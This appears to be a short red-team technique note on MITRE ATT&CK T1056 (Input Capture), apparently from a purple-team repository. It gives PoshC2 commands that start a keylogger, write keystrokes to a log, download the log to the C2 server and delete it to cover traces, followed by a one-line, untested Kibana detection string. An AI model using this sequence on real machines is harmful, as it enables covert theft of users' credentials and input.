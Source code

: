 # [Input Capture](https://attack.mitre.org/techniques/T1056/)

## Exploit Description: 
Adversaries may use methods of capturing user input to obtain credentials or collect information. During normal system usage, users often provide credentials to various different locations, such as login pages/portals or system dialog boxes. Input capture mechanisms may be transparent to the user (e.g. Credential API Hooking) or rely on deceiving the user into providing input into what they believe to be a genuine service (e.g. Web Portal Capture).
---

## Exploit syntax:
In Poshc2, Run
```sh
start-keystrokes 
##Starts the Keylogger

start-keystrokes-writefile 
##record this file location(.log)

### Keylogger is now running until Stopped ###

Download-file "C:\keylogname.log" 
## Gets put into /var/poshc2/*projectname*/downloads

Stop-Keystrokes 
##Stop keylogger for cleanup

posh-delete C:\<same place with new filename> 
##Cleaning up file created
```
---

## Detection Technique:
* (Kibana): Utilized string searches. (“Get-Keystrokes”) --- NOT TESTED IN KIBANA